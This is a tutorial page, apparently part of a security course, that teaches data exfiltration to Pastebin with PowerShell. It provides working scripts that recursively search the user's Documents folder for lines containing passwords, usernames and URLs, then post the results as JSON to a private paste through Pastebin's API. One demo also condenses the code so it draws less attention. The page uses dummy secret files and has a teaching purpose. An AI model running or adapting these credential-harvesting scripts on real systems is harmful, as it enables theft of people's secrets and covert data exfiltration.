 ```yaml
---
layout: default
title: Data Exfiltration with Pastebin
nav_order: 6
---
```

# First demo

Go to the folder where you previously created logindata.ps1 and create a new file called `new-pastebin.ps1` with the code below. Open your terminal and run new-pastebin.ps1 (don't doubleclick in windows, run it via the Powershell terminal)

1. Observe the results. You will see an URL
2. Visit this URL

```
#Demo 1, Something easy. Userkey won't be used yet so everything is anonymous
. .\logindata.ps1
$Content    =   Invoke-WebRequest -Uri "https://ipinfo.io/json"
$Title      =   "pastebin1"

$Body = @{ 
    api_dev_key         = $DevKey;
    #    api_user_key        = $UserKey;
    api_paste_name	    = $Title;
    api_paste_code      = $Content;
    api_paste_private   = "0"; # 0=public 1=unlisted 2=private
    api_option          = "paste";
    }

Invoke-WebRequest -Uri "https://pastebin.com/api/api_post.php" -UseBasicParsing -Body $Body -Method Post -OutFile $Title.txt
```
## Preparing more advanced use of Pastebin
Thus far, our data exiltration is public.​ Thanks to the API key we can upload to Pastebin but we need to use authentication to make it private, so let’s make it private​ 😃.

For this we need to setup our “userkey”​

This means we will use 2 keys​: 
1. Our dev key, which we already have​.
2. Our user key, which still needs creation.

### Userkey creation

Create a new file called `get-apiuserkey.ps1`, using the code below.
```
$DevKey     = PUT-DEV-KEY-HERE
$Username   = PUT-PASTEBIN-USERNAME-HERE
$Password   = PUT-PASTEBIN-PASSWORD-HERE
$PasteBinLogin = "https://pastebin.com/api/api_login.php"
$Body = @{ 
    api_dev_key = $DevKey;
    api_user_name	= $Username;
    api_user_password = $Password;
    }

Invoke-WebRequest -Uri $PasteBinLogin -UseBasicParsing -Body $Body -Method Post -OutFile Api_user_key.txt
```
- Fill in the 3 required variables at the top.
- Run the script from the terminal.
- Your userkey is saved in Api_user_key.txt
- Add this key to logindata.ps1


Once this is done… we’re cooking!

### Create some dummy files
For demo purposes we're going to create 2 dummy files: `password.txt` and `secrets.txt` put these 2 files in your documents folder: `C:\Users\$env:username\Documents`

password.txt has the following contents
```
PUT THIS FILE IN C:\Users\$env:username\Documents
I do silly things like sometimes putting passwords in files. 
```
secret.txt has the following contents
```
PUT THIS FILE IN C:\Users\$env:username\Documents
this is my secret file
my password for example.com is Kameham3ha!
my username for example.com is ThebrokeShadower
https://www.example.com/login-or-something
```
# Second demo
Create a new file called "new-pastebin2.ps1" and copy paste the following data in it:
```

#Demo 2, let's grab some passwords from local files!
. .\logindata.ps1
$Content    =   ls c:\users\$env:username\Documents -r | Select-String password,username,http | select line,path
$Title      =   "pastebin2"

$Body = @{ 
    api_dev_key         = $DevKey;
    api_user_key        = $UserKey;
    api_paste_name	    = $Title;
    api_paste_code      = $Content;
    api_paste_private   = "2"; # 0=public 1=unlisted 2=private
    api_option          = "paste";
    }

Invoke-WebRequest -Uri "https://pastebin.com/api/api_post.php" -UseBasicParsing -Body $Body -Method Post -OutFile $Title.txt
```
Execute new-pastebin2.ps1 from the terminal. If all goes well, you will have this pastebin under your personal account on the pastebin.com website.
But there seems to be a problem?

# Third demo

Powershell stores the data in an object. Which is not bad but invoke-webrequest doesn’t understand it and thus the parsing is bad.
Let’s convert the data to a format which will work.
Create new-pastebin3.ps1 and observe the difference with new-pastebin2.ps1
```
. .\logindata.ps1
$Content = ConvertTo-Json (ls c:\users\$env:username\Documents -r | Select-String password,username,http | select line,path)
$Title      =   "pastebin3"

$Body = @{ 
    api_dev_key         = $DevKey;
    api_user_key        = $UserKey;
    api_paste_name	    = $Title;
    api_paste_code      = $Content;
    api_paste_private   = "2"; # 0=public 1=unlisted 2=private
    api_option          = "paste";
    }

Invoke-WebRequest -Uri "https://pastebin.com/api/api_post.php" -UseBasicParsing -Body $Body -Method Post -OutFile $Title.txt
```


Now launch new-pastebin3.ps1 from the terminal.
Observe the results in your pastebin.com account

# Fourth demo
We want to generate a bit less attention so we will try to have less lines of code on our screen.
Luckily, we can do this by using “;” in powershell
Create new-pastebin4.ps1 and new-pastebin5.ps1

new-pastebin4.ps1
```
. .\logindata.ps1
$Content = ConvertTo-Json (ls c:\users\$env:username\Documents -r | Select-String password,username,http | select line,path); $Title="pastebin3"
$Body = @{ api_dev_key=$DevKey; api_user_key=$UserKey; api_paste_name=$Title;api_paste_code=$Content;api_paste_private="2";api_option="paste";}
Invoke-WebRequest -Uri "https://pastebin.com/api/api_post.php" -UseBasicParsing -Body $Body -Method Post -OutFile $Title.txt
```
new-pastebin5.ps1
```
$DevKey="PUT-DEVKEY-HERE";$UserKey="PUT-USER-KEY-HERE"
$Content = ConvertTo-Json (ls c:\users\$env:username\Documents -r | Select-String password,username,http | select line,path); $Title="pastebin3"
$Body = @{ api_dev_key=$DevKey; api_user_key=$UserKey; api_paste_name=$Title;api_paste_code=$Content;api_paste_private="2";api_option="paste";}
Invoke-WebRequest -Uri "https://pastebin.com/api/api_post.php" -UseBasicParsing -Body $Body -Method Post -OutFile $Title.txt
```
Observe the concatenation done in those 2 files.
What is the difference between 4 and 5? Why would this be?
